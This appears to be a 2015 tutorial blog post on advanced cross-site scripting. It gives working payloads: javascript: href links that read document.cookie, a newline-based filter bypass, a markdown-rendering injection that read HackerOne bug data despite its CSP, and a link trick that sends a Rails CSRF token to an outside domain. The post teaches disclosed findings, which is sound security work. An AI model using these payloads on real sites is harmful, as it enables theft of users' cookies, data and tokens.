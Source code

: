 ```yaml
---
title: advanced cross site scripting part 1
updated: 2015-11-26
tags: hackerone,xss,cross site scripting,csp bypass,href xss,stored xss,reflected xss,dom xss,google xss,csrf,ruby
---
```

> Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications.
XSS enables attackers to inject client-side script into web pages viewed by other users.

Yeah you know about that . Let's dive deep into the cross site scripting . Now a days xss is not just inserting 
`"><img src=x onerror=prompt(9)>` .There are some clever hacks for cross site scripting . Some people redefined the way 
attackers can perform xss.
now think of `<a>` tag . Commonly known attack is inserting `javascript:alert(document.cookie)` into href . 

```html
<a href="javascript:alert(document.cookie)">lol</a>
```
But there are some filters those need an protocol like `{anything}://` . But this one dosen't executes 
`javascript://alert(document.cookie)` . To bypass this one we need some characters like %0a%0d . Final payload

```html
<a href="javascript://%0a%0dalert(document.cookie)">lol</a>
```
This one is basic too. Now we will discuss about a rare xss found by danlec which bypassed strong csp of hackerone.
Hackerone uses daring fireball as markdown [https://daringfireball.net/projects/markdown/basics](https://daringfireball.net/projects/markdown/basics).
Danlec found that `<http://\<h1\>test\</h1\>>` rendered to `http://<h1>test</h1>`
Hackerone uses strong csp but some one can access the information of the user bugs

```
<http://\<img\ src=0\ onerror=\"$.getJSON(\'/bugs\',function(a){alert(JSON.stringify(a));})\"\>>
```

But some can send csrf token to other domain by a link handle bypass

```html
<a href="http://danlec.com" data-method="post">Proof of Concept</a>
```

`data-method="post"` Normally url's are get requests but ruby has an option of adding post method . Ruby sends `X-Csrf-Token`
with the post request so any url there can catch the csrf token at server side .


Visit my next article about advanced xss [http://withintech.com/notes/xss-cross-site-scripting-2](http://withintech.com/notes/xss-cross-site-scripting-2)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- mobile ad -->
<ins class="adsbygoogle"
     style="display:inline-block;width:320px;height:100px"
     data-ad-client="ca-pub-6760357694701522"
     data-ad-slot="9506986493"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
